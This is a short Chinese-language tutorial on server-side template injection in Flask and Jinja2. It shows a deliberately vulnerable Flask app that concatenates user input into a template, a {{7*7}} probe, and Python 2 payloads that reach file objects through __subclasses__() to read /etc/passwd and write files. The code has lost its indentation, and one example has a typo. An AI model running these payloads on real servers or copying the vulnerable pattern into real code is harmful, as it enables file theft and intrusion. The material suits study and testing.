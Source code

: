# Flask ssti

## FLASK模板（jinja2框架)

这可能是你将会碰到的最多的模板


弄懂这个是接下来几个模板的比较重要的基础。（所以可能会啰嗦）


模板基于python,可能是py2也可能是py3，貌似py2会多一点。



## Flask


如果渲染的模版内容受到用户的控制。。。。


```plain
from flask import Flask, request
from jinja2 import Template
app = Flask(__name__)
@app.route("/")
def index():
name = request.args.get('name', 'guest')
t = Template("Hello " + name)
return t.render()
if __name__ == "__main__":
app.run();
Plain Text
```



我们可以控制的参数显然是name


提交 ?name=guest.{{7*7}}


会发现被计算成了49


又或者是{{‘abcd’,upper()}}(本质上还是py)


会输出ABCD


下面开始加速：


py2:


```plain
#读文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
#写文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}
Plain Text
```
